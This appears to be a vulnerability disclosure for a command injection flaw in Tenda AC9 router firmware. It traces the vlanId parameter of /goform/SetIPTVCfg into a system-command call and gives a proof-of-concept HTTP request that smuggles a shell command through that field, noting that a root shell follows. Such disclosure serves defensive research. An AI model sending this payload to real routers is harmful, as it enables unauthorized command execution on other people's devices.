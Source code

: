 # Tenda AC9 V15.03.2.21_cn Command Execution Vulnerability

## Overview

- Manufacturer's website information：https://www.tenda.com.cn/profile/contact.html
- Firmware download address ： https://www.tenda.com.cn/download/default.html

## 1. Affected version

![image-20220214114428086](img/image-20220214114428086.png)

Figure 1 shows the latest firmware Ba of the router

## Vulnerability details

![image-20220214130342932](img/image-20220214130342932.png)

First, it puts the content after the vlanid parameter into V8,
Then bring V8 into sub_ A3760 and sub_ In a3550 function

![image-20220214130401202](img/image-20220214130401202.png)

![image-20220214130529544](img/image-20220214130529544.png)

 The functions call dosystemcmd, and the parameters are controllable. We can achieve the effect of command injection by constructing payload

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware V15.03.2.21_cn
2. Attack with the following POC attacks

```
POST /goform/SetIPTVCfg HTTP/1.1
Host: 192.168.11.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 51
Origin: http://192.168.11.1
Connection: close
Referer: http://192.168.11.1/iptv.html?random=0.7642888131213508&
Cookie: password=7c90ed4e4d4bf1e300aa08103057ccbcmho1qw

stbEn=1&igmpEn=1&vlanId=1"echo 1234 > /tmp/4455 \"\
```

The reproduction results are as follows:

![image-20220214130316917](img/image-20220214130316917.png)

Figure 2 POC attack effect

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shel![image-20220214123320952](img/image-20220214123320952.png)

